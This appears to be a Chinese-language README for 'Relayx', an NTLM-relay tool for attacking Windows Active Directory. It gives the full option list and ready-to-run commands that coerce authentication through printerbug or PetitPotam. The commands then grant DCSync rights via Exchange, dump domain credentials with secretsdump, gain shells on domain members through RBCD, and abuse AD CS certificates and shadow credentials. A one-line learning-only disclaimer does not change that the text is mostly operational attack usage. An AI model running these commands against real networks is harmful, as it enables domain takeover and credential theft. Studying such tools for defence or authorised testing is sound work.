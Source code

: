 # Relayx
## 声明
**一切开发旨在学习，请勿用于非法用途**

## Usage
将几个比较好用的relay集成到了一起，提高测试效率。
```
DCpwn with ntlmrelay

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address> or LOCAL (if you want to parse local files)

optional arguments:
  -h, --help            show this help message and exit
  -r CALLBACK_IP, --callback-ip CALLBACK_IP
                        Attacker callback IP
  --timeout TIMEOUT     timeout in seconds
  --debug               Enable debug output
  -ts                   Adds timestamp to every logging output
  --no-trigger          Start exploit server without trigger.
  --smb-port SMB_PORT   Port to listen on smb server
  -rpc-smb-port [destination port]
                        Destination port to connect to SMB Server

authentication:
  -hashes LMHASH:NTHASH
                        Hash for account auth (instead of password)

connection:
  -dc-ip ip address     IP address of the Domain Controller
  -adcs-ip ip address   IP Address of the ADCS, if unspecified, dc ip will be used
  --ldap                Use ldap.
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is
                        the NetBIOS name and you cannot resolve it

attack:
  -m {rbcd,pki,sdcd}, --method {rbcd,pki,sdcd}
                        Set up attack method, rbcd or pki or sdcd (shadow credential)
  -t {printer,efs}, --trigger {printer,efs}
                        Set up trigger method, printer or petitpotam
  --impersonate IMPERSONATE
                        target username that will be impersonated (thru S4U2Self) for quering the ST. Keep in mind this will only work if the
                        identity provided in this scripts is allowed for delegation to the SPN specified
  --add-computer [COMPUTERNAME]
                        Attempt to add a new computer account
  -pipe {efsr,lsarpc,samr,netlogon,lsass}
                        Named pipe to use (default: lsarpc)
  --template TEMPLATE   AD CS template. If you are attacking Domain Controller or other windows server machine, default value should be suitable.
  -pp PFX_PASS, --pfx-pass PFX_PASS
                        PFX password.
  -ssl                  This is useful when AD CS use ssl.

execute:
  -share SHARE          share where the output will be grabbed from (default ADMIN$)
  -shell-type {cmd,powershell}
                        choose a command processor for the semi-interactive shell
  -codec CODEC          Sets encoding used (codec) from the target's output (default "GBK").
```
## 认证触发
工具中包含了两种触发机器回连的操作。
printerbug 和 PetitPotam。 触发可通过指定参数来实现，默认使用printerbug
```
-t printer  # 使用 打印机bug  触发
-t efs      # 使用 MS-EFSRPC 触发
```

如果不需要工具主动去触发回连，可以添加参数`--no-trigger`,这样就可以通过其他方式来进行触发。

## 攻击场景
目前支持三种攻击方式
```
-m rbcd     # 普通域成员RBCD，高权限，添加Dcsync权限
-m pki      # 向AD CS申请证书
-m sdcd     # 通过ldap添加 msDS-KeyCredentialLink 属性进行攻击，需要 Server >= 2016
```
### 一、攻击Exchange服务器
默认Exchange的服务权限较高，所以工具会利用Exchange的权限将当前用户增加Dcsync权限。
```
python relayx.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.201 -r 10.211.55.2 -dc-ip 10.211.55.200
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728171035.png)

>目标的方式可以使用impacket的方式来写，@后跟目标即可，-r 是回连IP，也就是我们的攻击IP，-dc-ip 指定要去认证或者请求的DC ip, 后面一样，就不再重复。

攻击之后，当前用户可进行dcsync：
```
secretsdump.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.200 -just-dc-user cgdomain\\exchange$
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728171339.png)

使用aclpwn可进行还原(这里需要exchange服务器的机器账号hash):
```
aclpwn -r aclpwn-xxxxx-xxxxx.restore
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728171452.png)


### 二、攻击域成员机器
攻击普通服务器会自动使用RBCD（基于资源的约束委派）来攻击，所以这里需要域级别>= Server2012R2。
```
python relayx.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.202 -r 10.211.55.2 -dc-ip 10.211.55.203
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728172026.png)

攻击成功后，会自动获取一个交互式shell，并会生成一个ccache文件供以后使用，这里默认会模拟`administrator`的身份，如果不存在administrator，可通过`--impersonate` 来指定目标用户。

>这里默认会添加一个新的计算机账号，可通过--add-computer 来指定机器名，不指定则为随机名。

### 三、攻击AD CS
这里要求目标环境安装了`AD CS`。攻击AD CS 可以通过`-m pki` 来指定。
```
python relayx.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.202 -r 10.211.55.2 -dc-ip 10.211.55.200 -m pki
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728173221.png)

这里会向CS申请一个机器账号的证书，之后通过Rubues进行后续攻击即可。

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728173445.png)


### 四、利用msDS-KeyCredentialLink
类似于RBCD，优点是不需要添加计算机账号，缺点是需要Server版本高于2016, 可通过`-m sdcd` 来指定。
```
python relayx.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.202 -r 10.211.55.2 -dc-ip 10.211.55.200 -m sdcd
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210803105506.png)

>本地没2016环境。所以会报个错。

后续可通过Rubues进行后续攻击。